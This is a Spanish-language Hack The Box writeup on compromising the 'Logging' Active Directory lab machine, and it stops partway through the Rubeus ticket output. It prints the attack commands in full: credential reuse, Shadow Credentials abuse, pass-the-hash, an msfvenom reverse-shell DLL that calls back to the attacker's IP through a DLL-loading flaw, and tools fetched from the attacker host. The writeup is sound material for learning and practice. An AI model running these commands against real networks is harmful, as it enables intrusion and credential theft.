


# Writeup: Logging (Hack The Box — Retirada)

Logging es una máquina de dificultad Media basada en un entorno Active Directory. El recorrido comienza con unas credenciales iniciales proporcionadas para el usuario `wallace.everette`. La enumeración de recursos compartidos SMB revela un directorio `Logs` con trazas de conexión que exponen credenciales en texto plano para el usuario `svc_recovery`. Tras sincronizar el tiempo con el controlador de dominio (un paso crítico para la autenticación Kerberos), se utilizan estas credenciales para extraer información del dominio y abusar de los *Shadow Credentials* sobre la cuenta de equipo `msa_health$`, obteniendo acceso por WinRM. 

Una vez dentro, se descubre una tarea programada que ejecuta un binario .NET (`UpdateMonitor.exe`) como el usuario `jaylee.clifton`. Al descompilar el binario, se identifica una vulnerabilidad de DLL Hijacking que permite la escalada de privilegios. Con este nuevo acceso, se descubre que el usuario pertenece al grupo `IT`, el cual tiene permisos de inscripción (Enroll) sobre una plantilla de certificado vulnerable a ESC17 en ADCS (Active Directory Certificate Services). Finalmente, combinando un ataque de DNS Hijacking y la suplantación de un servidor WSUS rogue, se logra la ejecución de comandos como `NT AUTHORITY\SYSTEM`.

---

## Fase 1: Reconocimiento

Lanzamos un escaneo completo de puertos con Nmap para descubrir toda la superficie de ataque de la máquina:

```bash
sudo nmap -sS --min-rate 500 -p- -n -Pn -vv 10.129.61.196 -oG allPorts
```

**Resultado:**
```text
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
8530/tcp  open  unknown          syn-ack ttl 127
8531/tcp  open  unknown          syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
...
```

Usamos la funcionalidad `extractPorts` para copiar los puertos abiertos al portapapeles de forma rápida:

```bash
extractPorts allPorts
```
```text
[*] Extrayendo información...

        [*] Dirección IP: 10.129.61.196
        [*] Puertos abiertos: 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8530,8531,9389,47001,49664,49665,49666,49667,49673,49690,49692,49697,49713,49749,49771,49808

[*] Puertos copiados al portapapeles
```

Realizamos un escaneo de servicios y versiones dirigido a los puertos abiertos:

```bash
nmap -sV -sC -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8530,8531,9389,47001,49664,49665,49666,49667,49673,49690,49692,49697,49713,49749,49771,49808 10.129.61.196 -oN targeted
```

**Resultados clave:**
```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-19 06:08:05Z)
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
445/tcp   open  microsoft-ds?
8530/tcp  open  http          Microsoft IIS httpd 10.0
8531/tcp  open  ssl/unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m02s, deviation: 0s, median: 7h00m02s
```

**Observaciones clave:**
* **Dominio:** `logging.htb`
* **Controlador:** `DC01.logging.htb`
* **WinRM habilitado** en el puerto 5985.
* **Puertos 8530 y 8531 expuestos:** Esto indica la presencia de servicios WSUS (Windows Server Update Services).
* **Desfase de horario (clock-skew):** Nmap reporta una diferencia de +7 horas. Este detalle será crucial más adelante.

Añadimos el dominio a `/etc/hosts`:

```bash
echo "10.129.61.196 DC01.logging.htb logging.htb" >> /etc/hosts
```

---

## Fase 2: Enumeración de recursos SMB

Como es común en pentests reales, iniciamos con credenciales proporcionadas para la cuenta `wallace.everette / Welcome2026@`. Verificamos el acceso y enumeramos los recursos compartidos mediante NetExec (nxc):

```bash
nxc smb logging.htb -u 'wallace.everette' -p 'Welcome2026@' --shares
```
```text
SMB         10.129.61.196   445    DC01             [+] logging.htb\wallace.everette:Welcome2026@ 
SMB         10.129.61.196   445    DC01             [*] Enumerated shares
SMB         10.129.61.196   445    DC01             Share           Permissions     Remark
SMB         10.129.61.196   445    DC01             -----           -----------     ------
SMB         10.129.61.196   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.61.196   445    DC01             C$                              Default share
SMB         10.129.61.196   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.61.196   445    DC01             Logs            READ            
SMB         10.129.61.196   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.61.196   445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.61.196   445    DC01             WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
```

El recurso `Logs` llama nuestra atención. Nos conectamos usando `smbclient` y descargamos todos los archivos de forma recursiva:

```bash
smbclient -U 'wallace.everette%Welcome2026@' //logging.htb/Logs
```
```text
Try "help" to get a list of possible commands.
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
getting file \Audit_Heartbeat.log of size 1294 as Audit_Heartbeat.log (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
getting file \IdentitySync_Trace_20260219.log of size 8488 as IdentitySync_Trace_20260219.log (6.3 KiloBytes/sec) (average 3.7 KiloBytes/sec)
getting file \Service_State.log of size 468 as Service_State.log (0.6 KiloBytes/sec) (average 3.0 KiloBytes/sec)
getting file \TaskMonitor.log of size 1170 as TaskMonitor.log (1.4 KiloBytes/sec) (average 2.7 KiloBytes/sec)
```

Al analizar el archivo `IdentitySync_Trace_20260219.log`, encontramos un volcado de contexto de conexión que exponía credenciales en texto plano:

```bash
cat IdentitySync_Trace_20260219.log 
```
```text
[2026-02-09 03:00:03.125] [PID:4102] [Thread:04] VERBOSE - ConnectionContext Dump: { Domain: "logging.htb", Server: "DC01", SSL: "False", BindUser: "LOGGING\svc_recovery", BindPass: "Em3rg3ncyPa$$2025", Timeout: 30 }
[2026-02-19 03:00:03.488] [PID:4102] [Thread:04] ERROR - System.DirectoryServices.Protocols.LdapException: A local error occurred.
[2026-02-19 03:00:03.510] [PID:4102] [Thread:12] WARN  - Connectivity failed for logging\svc_recovery. Checking alternate Domain Controller...
```

Hemos encontrado credenciales: `svc_recovery : Em3rg3ncyPa$$2025`.

---

## Fase 3: La importancia de la Sincronización de Tiempo en Kerberos

Intentamos usar las credenciales descubiertas para validar el acceso por SMB:

```bash
nxc smb logging.htb -u 'svc_recovery' -p 'Em3rg3ncyPa$$2025' 
```
```text
SMB         10.129.61.196   445    DC01             [-] logging.htb\svc_recovery:Em3rg3ncyPa$$2025 STATUS_ACCOUNT_RESTRICTION 
```

**¿Por qué obtenemos `STATUS_ACCOUNT_RESTRICTION`?**
En entornos Active Directory, el protocolo de autenticación principal es **Kerberos**. Kerberos utiliza *timestamps* (marcas de tiempo) para prevenir ataques de repetición (replay attacks). Cuando un cliente solicita un ticket (TGT), el KDC (Key Distribution Center, ubicado en el Domain Controller) lo firma con un timestamp. Si el reloj del cliente y el del servidor difieren en más de 5 minutos (por defecto), el KDC rechaza la autenticación por seguridad. En la Fase 1, Nmap nos avisó de un desfase de +7 horas.

Para solucionar esto, desactivamos la sincronización NTP local y forzamos a nuestra máquina a sincronizarse con el servidor víctima:

```bash
sudo timedatectl set-ntp false                                                                                                              
sudo killall VBoxService 
sudo ntpdate -u logging.htb 
```
```text
2026-07-19 04:58:17.888485 (-0400) +25200.013191 +/- 0.099172 logging.htb 10.129.61.216 s1 no-leap
CLOCK: time stepped by 25200.013191
```

Ahora que estamos sincronizados, intentamos la autenticación usando el parámetro `-k` (que fuerza el uso de Kerberos en lugar de NTLM):

```bash
nxc smb logging.htb -u 'svc_recovery' -p 'Em3rg3ncyPa$$2025' -k
```
```text
SMB         logging.htb     445    DC01             [-] logging.htb\svc_recovery:Em3rg3ncyPa$$2025 KDC_ERR_PREAUTH_FAILED
```

El error ha cambiado a `KDC_ERR_PREAUTH_FAILED`, lo que significa que la sincronización funcionó, pero la contraseña del año 2025 (que es la que estaba en el log) ya no es válida. Sin embargo, dado que el log era de 2025 y la máquina está en el año 2026, actualizamos el año de la contraseña a la fuerza:

```bash
nxc smb logging.htb -u 'svc_recovery' -p 'Em3rg3ncyPa$$2026' -k
```
```text
SMB         logging.htb     445    DC01             [+] logging.htb\svc_recovery:Em3rg3ncyPa$$2026
```

¡Acceso exitoso!

---

## Fase 4: Enumeración de Active Directory y Shadow Credentials

Con credenciales válidas para `svc_recovery`, extraemos la información del dominio. Para obtener una enumeración más precisa y evitar problemas con NetExec detectando ciertas relaciones, recurrimos a `rusthound-ce`, una herramienta muy efectiva en Rust para recolectar datos de AD:

```bash
rusthound-ce -d logging.htb -u 'wallace.everette' -p 'Welcome2026@' 
```

Al analizar los datos en BloodHound, descubrimos un vector de ataque crucial. La siguiente imagen muestra que el usuario `svc_recovery` tiene el permiso `GenericWrite` sobre la cuenta de equipo `msa_health$`:




Este permiso `GenericWrite` nos permite modificar atributos del objeto `msa_health$`, lo que habilita un ataque de **Shadow Credentials**.

**¿Qué es el ataque Shadow Credentials?**
Este ataque abusa del atributo `msDS-KeyCredentialLink` de un objeto en AD. Si un atacante tiene permisos para escribir en este atributo de una cuenta objetivo, puede inyectar su propia clave pública (como si fuera una tarjeta inteligente virtual). Luego, utilizando PKINIT, el atacante solicita un Ticket Granting Ticket (TGT) al KDC demostrando que posee la clave privada correspondiente. El KDC confiará en el atacante y le otorgará un TGT válido para la cuenta objetivo, permitiendo la suplantación sin necesidad de conocer la contraseña del usuario.

Utilizamos `bloodyAD` (autenticándonos con Kerberos mediante el parámetro `-k`) para abusar de este permiso:

```bash
bloodyAD --host DC01.logging.htb --dc-ip 10.129.62.200 -d logging.htb -u svc_recovery -p 'Em3rg3ncyPa$$2026' -k add shadowCredentials 'msa_health$'
```
```text
[+] KeyCredential generated with following sha256 of RSA key: 4bd0ddb74f7029d73bad08ed5e2f3efc19e5ffc164d0a7948eede55c81155947
[+] TGT stored in ccache file msa_health_lc.ccache
```

Tras inyectar la credencial y solicitar el TGT, obtenemos el hash NTLM de la cuenta `msa_health$`:

```text
NT: 603fc24ee01a9409f83c9d1d701485c5
```

Con este hash NTLM, podemos conectarnos por WinRM utilizando la técnica de Pass the Hash:

```bash
evil-winrm-py -i logging.htb -u msa_health$ -H 603fc24ee01a9409f83c9d1d701485c5
```
```text
[*] Connecting to 'logging.htb:5985' as 'msa_health$'
evil-winrm-py PS C:\Users\msa_health$\Documents> whoami
logging\msa_health$
```

---

## Fase 5: Análisis Interno, Tareas Programadas y DLL Hijacking

Durante la enumeración del sistema, encontramos un script de monitorización `monitor.ps1` en los documentos de `msa_health$`:

```powershell
evil-winrm-py PS C:\Users\msa_health$\Documents> type monitor.ps1
```
```powershell
<#
.SYNOPSIS
    Monitors the status of the "UpdateChecker Agent" scheduled task.
    Uses COM interface to avoid CIM/WMI permission issues.
#>

$TaskName = "UpdateChecker Agent"
$LogPath = "C:\Share\Logs\TaskMonitor.log"
$Timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"

try {
    $service = New-Object -ComObject "Schedule.Service"
    $service.Connect()
    $task = $service.GetFolder("\").GetTask($TaskName)

    $State = switch ($task.State) {
        1 { "Disabled" }
        2 { "Queued" }
        3 { "Ready" }
        4 { "Running" }
        5 { "Disabled" }
        6 { "Unknown" }
        default { "Unknown" }
    }

    if ($State -ne "Ready" -and $State -ne "Running") {
        $Message = "[$Timestamp] WARN  - Task [$TaskName] is in an unexpected state: $State"
    }
    else {
        $Message = "[$Timestamp] INFO  - Task [$TaskName] health check: OK (State: $State)"
    }
}
catch {
    $Message = "[$Timestamp] ERROR - Failed to query task [$TaskName]. Exception: $($_.Exception.Message)"
}

Add-Content -Path $LogPath -Value $Message
```

El script consulta el estado de una tarea programada llamada "UpdateChecker Agent" y registra el resultado en `C:\Share\Logs\TaskMonitor.log`. Al revisar el log, vemos que la última ejecución fue en febrero de 2026 y ya no parece estar en ejecución:

```powershell
evil-winrm-py PS C:\Users\msa_health$\Documents> type c:\Share\Logs\TaskMonitor.log
```
```text
[2026-02-20 09:56:48] INFO  - Task [UpdateChecker Agent] health check: OK (State: Ready)
...
[2026-02-22 02:55:28] INFO  - Task [UpdateChecker Agent] health check: OK (State: Ready)
evil-winrm-py PS C:\Users\msa_health$\Documents> date

Monday, July 20, 2026 8:00:22 PM
```

Sin embargo, podemos usar los mismos comandos COM que usa el script para inspeccionar la tarea manualmente:

```powershell
evil-winrm-py PS C:\Users\msa_health$\Documents> $service = New-Object -ComObject "Schedule.Service"                                        
evil-winrm-py PS C:\Users\msa_health$\Documents> $service.Connect()                                                                         
evil-winrm-py PS C:\Users\msa_health$\Documents> $TaskName = "UpdateChecker Agent"                                                          
evil-winrm-py PS C:\Users\msa_health$\Documents> $task = $service.GetFolder("\").GetTask($TaskName)                                         
evil-winrm-py PS C:\Users\msa_health$\Documents> $task 
```

Al mostrar el contenido de `$task`, obtenemos sus propiedades, incluyendo el XML completo que define su configuración:

```text
Name               : UpdateChecker Agent                                                                                                    
Path               : \UpdateChecker Agent                                                                                                   
State              : 3                                                                                                                      
Enabled            : True                                                                                                                   
LastRunTime        : 7/20/2026 7:53:15 PM                                                                                                   
LastTaskResult     : 0                                                                                                                      
NumberOfMissedRuns : 0
NextRunTime        : 7/20/2026 7:56:15 PM
Definition         : System.__ComObject
Xml                : <?xml version="1.0" encoding="UTF-16"?>
                     <Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
                       <RegistrationInfo>
                         <Date>2026-04-16T16:39:34.3280175</Date>
                         <Author>logging\Administrator</Author>
                         <URI>\UpdateChecker Agent</URI>
                       </RegistrationInfo>
                       <Principals>
                         <Principal id="Author">
                           <UserId>S-1-5-21-4020823815-2796529489-1682170552-2105</UserId>
                           <LogonType>Password</LogonType>
                         </Principal>
                       </Principals>
                       <Settings>
                         <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
                         <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
                         <MultipleInstancesPolicy>Parallel</MultipleInstancesPolicy>
                         <IdleSettings>
                           <StopOnIdleEnd>true</StopOnIdleEnd>
                           <RestartOnIdle>false</RestartOnIdle>
                         </IdleSettings>
                       </Settings>
                       <Triggers>
                         <TimeTrigger>
                           <StartBoundary>2026-04-16T16:38:15</StartBoundary>
                           <Repetition>
                             <Interval>PT3M</Interval>
                           </Repetition>
                         </TimeTrigger>
                       </Triggers>
                       <Actions Context="Author">
                         <Exec>
                           <Command>"C:\Program Files\UpdateMonitor\UpdateMonitor.exe"</Command>
                           <Arguments>500 /scan=3 /autofix=true</Arguments>
                         </Exec>
                       </Actions>
                     </Task>
```

Analizando el XML de la salida, observamos dos cosas críticas:
1. Se ejecuta cada 3 minutos (`<Interval>PT3M</Interval>`).
2. Ejecuta el binario `C:\Program Files\UpdateMonitor\UpdateMonitor.exe` como el usuario con SID `S-1-5-21-4020823815-2796529489-1682170552-2105`.

Usamos `lookupsid.py` de Impacket para mapear ese SID a un usuario:

```bash
impacket-lookupsid logging.htb/wallace.everette:'Welcome2026@'@10.129.63.123
```
```text
[*] Brute forcing SIDs at 10.129.63.123
[*] StringBinding ncacn_np:10.129.63.123[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4020823815-2796529489-1682170552
498: logging\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: logging\Administrator (SidTypeUser)
...
2104: logging\svc_recovery (SidTypeUser)
2105: logging\jaylee.clifton (SidTypeUser)
...
```

El binario se ejecuta como `jaylee.clifton`. Descargamos el binario a nuestra máquina para analizarlo:

```powershell
evil-winrm-py PS C:\Program Files\UpdateMonitor> download UpdateMonitor.exe UpdateMonitor.exe
```

Al analizarlo con ILSpy (extensión para VS Code), encontramos el código completo de la clase `Program`. Aquí se muestra el código tal cual fue descompilado:

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.IO.Compression;
using System.Linq;
using System.Runtime.InteropServices;

namespace UpdateMonitor;

internal class Program
{
    private delegate void PreUpdateCheck();

    [DllImport("kernel32.dll", CharSet = CharSet.Ansi, SetLastError = true)]
    private static extern IntPtr LoadLibrary([MarshalAs(UnmanagedType.LPStr)] string lpFileName);

    [DllImport("kernel32.dll", CharSet = CharSet.Ansi)]
    private static extern IntPtr GetProcAddress(IntPtr hModule, string procedureName);

    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern bool FreeLibrary(IntPtr hModule);

    private static void Main(string[] args)
    {
        string text = "C:\\ProgramData\\UpdateMonitor\\Logs\\monitor.log";
        string text2 = "C:\\ProgramData\\UpdateMonitor\\Settings_Update.zip";
        string text3 = "C:\\Program Files\\UpdateMonitor\\bin\\";
        string text4 = "settings_update.dll";
        string text5 = Path.Combine(text3, text4);

        Directory.CreateDirectory(Path.GetDirectoryName(text));
        CleanupLogs(text, 90);

        Log(text, "Starting Sentinel Update Check...");
        Log(text, "Checking for update on core server...");
        Log(text, "Info: Core did not find file Settings_Update.zip");
        Log(text, "Last status: File not found on core");
        Log(text, "Checking for update on local server...");

        if (File.Exists(text2))
        {
            try
            {
                if (File.Exists(text5))
                {
                    KillOtherInstances(text);
                    File.Delete(text5);
                }
                ZipFile.ExtractToDirectory(text2, text3);
                Log(text, "Successfully unzipped update to " + text3);
            }
            catch (IOException ex)
            {
                Log(text, "Update failed: " + ex.Message);
            }
            catch (Exception ex2)
            {
                Log(text, "Update failed: " + ex2.Message);
            }
        }
        else
        {
            Log(text, "No updates found locally: C:\\ProgramData\\UpdateMonitor\\Settings_Update.zip.");
        }

        Log(text, "Loading update applier: " + text5);
        IntPtr intPtr = LoadLibrary(text5);
        if (intPtr == IntPtr.Zero)
        {
            int lastWin32Error = Marshal.GetLastWin32Error();
            Log(text, $"Failed to load {text4}. Error code: {lastWin32Error}");
            Log(text, "Update check completed.");
            return;
        }

        try
        {
            IntPtr procAddress = GetProcAddress(intPtr, "PreUpdateCheck");
            if (procAddress != IntPtr.Zero)
            {
                Log(text, "Calling 'PreUpdateCheck' in " + text4);
                ((PreUpdateCheck)Marshal.GetDelegateForFunctionPointer(procAddress, typeof(PreUpdateCheck)))();
            }
            else
            {
                Log(text, "'PreUpdateCheck' not found in " + text4 + ". Continuing...");
            }
        }
        finally
        {
            FreeLibrary(intPtr);
        }

        Log(text, "Update check completed.");
    }

    private static void KillOtherInstances(string logPath)
    {
        Process currentProcess = Process.GetCurrentProcess();
        Process[] processesByName = Process.GetProcessesByName(currentProcess.ProcessName);
        foreach (Process process in processesByName)
        {
            if (process.Id != currentProcess.Id)
            {
                try
                {
                    process.Kill();
                    process.WaitForExit(3000);
                }
                catch (Exception ex)
                {
                    Log(logPath, $"Could not terminate PID {process.Id}: {ex.Message}");
                }
            }
        }
    }

    private static void CleanupLogs(string path, int maxLines)
    {
        try
        {
            FileInfo fileInfo = new FileInfo(path);
            if (fileInfo.Exists && fileInfo.Length >= 102400)
            {
                string[] array = File.ReadAllLines(path);
                if (array.Length > maxLines)
                {
                    string[] contents = array.Take(maxLines).ToArray();
                    File.WriteAllLines(path, contents);
                }
            }
        }
        catch
        {
        }
    }

    private static void Log(string path, string message)
    {
        string text = $"[{DateTime.Now:yyyy-MM-dd HH:mm:ss}] {message}{Environment.NewLine}";
        Console.Write(text);
        try
        {
            File.AppendAllText(path, text);
        }
        catch
        {
        }
    }
}
```

**Vulnerabilidad (DLL Hijacking / Insecure Update Mechanism):**
El binario busca un archivo `Settings_Update.zip` en `C:\ProgramData\UpdateMonitor\`. Si existe, lo descomprime en `C:\Program Files\UpdateMonitor\bin\` y carga la DLL `settings_update.dll` usando la API de Windows `LoadLibrary`. La función `LoadLibrary` ejecuta automáticamente el punto de entrada `DllMain` al cargar la librería. Si tenemos permisos de escritura en `C:\ProgramData\UpdateMonitor\`, podemos inyectar una DLL maliciosa que se ejecutará en el contexto del usuario que lanza la tarea programada (`jaylee.clifton`).

Verificamos los permisos de la carpeta `C:\ProgramData\UpdateMonitor\`:

```powershell
evil-winrm-py PS C:\ProgramData\UpdateMonitor> icacls .
```
```text
. NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
  BUILTIN\Administrators:(I)(OI)(CI)(F)
  CREATOR OWNER:(I)(OI)(CI)(IO)(F)
  BUILTIN\Users:(I)(OI)(CI)(RX)
  BUILTIN\Users:(I)(CI)(WD,AD,WEA,WA)

Successfully processed 1 files; Failed processing 0 files
```

El permiso `WD` (Write Data) nos permite crear archivos. Generamos una DLL maliciosa con `msfvenom` que enviará una reverse shell a nuestra máquina, la comprimimos en formato ZIP y la subimos:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.17.44 LPORT=443 -f dll -o settings_update.dll
zip Settings_Update.zip settings_update.dll
```

Subimos el ZIP a la máquina víctima y nos aseguramos de que `jaylee.clifton` tenga permisos de lectura sobre él (para que la tarea programada pueda leerlo y descomprimirlo):

```powershell
evil-winrm-py PS C:\ProgramData\UpdateMonitor> upload Settings_Update.zip Settings_Update.zip
evil-winrm-py PS C:\ProgramData\UpdateMonitor> icacls Settings_Update.zip /grant "logging\jaylee.clifton:R"
```

Nos ponemos a la escucha con Netcat y esperamos un máximo de 3 minutos a que se ejecute la tarea programada:

```bash
nc -nlvp 443
```
```text
listening on [any] 443 ...
connect to [10.10.17.44] from (UNKNOWN) [10.129.63.123] 54708
Microsoft Windows [Version 10.0.17763.8644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
logging\jaylee.clifton
```

¡Hemos escalado a `jaylee.clifton`! Podemos leer la flag `user.txt` en su escritorio.

---

## Fase 6: Descubrimiento de ADCS (ESC17), Rogue WSUS y su relación

Enumerando los documentos del usuario, encontramos un ticket de soporte en formato HTML que describe la migración temporal a un servidor WSUS debido a problemas con el servicio BITS:

```powershell
c:\Users\jaylee.clifton\Documents\Tickets>type Incident_4922_WSUS_Remediation_ViewExport.html
```
```html
<!DOCTYPE html>
<html>
...
<div class="entry">
    <span class="timestamp">2026-04-06 09:45</span> <strong>Internal Note:</strong><br>
    Machine is still choking on the standard catalog. BITS service is garbage and I'm not wasting another morning troubleshooting the local database. Since the "official" server migration is apparently taking forever, I've pointed this box to the staging endpoint at <strong>wsus.logging.htb</strong>.
</div>

<div class="entry">
    <span class="timestamp">2026-04-06 13:20</span> <strong>Internal Note:</strong><br>
    DNS is still not updated�standard for this department�so don't bother pinging it from outside the test subnet. I've set up a scheduled "ForceSync" task to deal with the inevitable lockups.
</div>

<div class="entry" style="background-color: #fff9db;">
    <span class="timestamp">2026-04-06 16:10</span> <strong>Final Resolution:</strong><br>
    Task is running on a 120s loop. It nukes SoftwareDistribution and restarts the agent every cycle. It�s a hack, but it works and it keeps the compliance auditors off my back. <strong>Do not touch the trigger settings.</strong> If the services don't come back up, that's your problem.
</div>
...
```

Verificamos el registro de Windows confirmando que el servidor WSUS está configurado para apuntar a `wsus.logging.htb`:

```powershell
c:\Users\jaylee.clifton\Documents\Tickets>reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate" /v WUServer
```
```text
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate
    WUServer    REG_SZ    https://wsus.logging.htb:8531
```

Ahora necesitamos enumerar los certificados del dominio (ADCS). Para autenticarnos como `jaylee.clifton` usando Kerberos desde Linux de forma limpia, primero descargamos y ejecutamos Rubeus en la máquina víctima para extraer un TGT de la memoria:

```powershell
c:\ProgramData> curl http://10.10.17.44:8000/Rubeus.exe -o Rubeus.exe
c:\ProgramData> .\Rubeus.exe tgtdeleg /nowrap
```
```text
[*] Action: Request Fake Delegation TGT (current user)
[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/DC01.logging.htb'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: MGFcgKIrE3xt6UXhvKG1k4JECRSFCvwLJKhk93xtvgM=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFyDCCBcSgAwIBBaEDAgEWooIEyjCCBMZhggTCMIIEvqADAgEFoQ0bC0xPR0dJTkcuSFRCoiAwHqADAgECoRcwFRsGa3JidGd0GwtMT0dHSU5HLkhUQqOCBIQwggSAoAMCARKhAwIBAqKCBHIEggRu7TvFjrD9tEkNTiAHIUBP9v1Ad869WBt++cKrnsQX6TT60M1j0cPV5ruzWZ2bAIyDT+uj1ySZ05SkOu1ShPc3iLEWdnvc+Jxvp+jBXCdWxS+s/+AwenhP915PttoacWkSSkWynhgTYgBR5IH8Eoee+IpkxwUed44hCCBjaxwNRHeYy3mqGk4EgBH0kZ+nuLIFwGq+yuI60jd5cyGWhS4TXBIEV/hZM9cQkyWaxUhyF7WfM/jSoeTbt6YP9xCcWhK6Jd4KFlt2FvlUJnzESV8smfPc8th53XxJKrzsx7ObG6+SOxahMkXvapaFsPhQLdm3v/vI+hsEYyaGPYnRNxSUvlnRw4Y9f+COtyPL9KmkiYWmtT8c0mlE3AYT7O6WfsqQakAlkm1/ctMBEajFQNV19MQt4ljHBGRT/udZNbrrBpUqsLDuqkyRIjqxXwBlJO6T0mZwt5tDdyDmSlns0OkV/gq9kKNiVGC84bhOfeCqFz4siK7/lht5hb8Lituocwl/lTELee48ojrJ/dQak5acJiHWHUGkII4FBKeLcThAuxqO9N1kdmEZdAtSziUB3NtVxyT+ltrS8qrqtX6Puh+sYx6QD3SsPyiV/LMb1EfPfG948qGaXkjxd3nlP9b5RF2YrFv1JWgx73Ji7MG/9Rc/6e25CFBRScwioioFQswrOcSItXVFi8MFz1XT5okNIe9fMMUSmqHLkqSTlYhTR9n643Qv02/KqO66OZW+vZtDGlDM2c2LGORfjH9+MF2chIEeFmqH+gHJAEnh9J/w3ZgBusQ3i5fMxm9Q1HpUGMhK2Le07hdjhSHz/+YhecYqq3IkOzEI7OwNBI5vl2IrYSu10iJhdjdHbgseyn/5Ap1KiMdd6yKVzdJnHmep9B6hDs4tfev1ZjbdGngA4I+DfCgpeWt6bU1VGMkSdgqOeW1UUEX4hBNB7zbEjQPZg35h9/ECd/AFQSuy29sGnp88vnUB25FRaXAqwDnktyu4wFQ80gaJRjajoMVfZHUoqJMei7MTtU8bVeb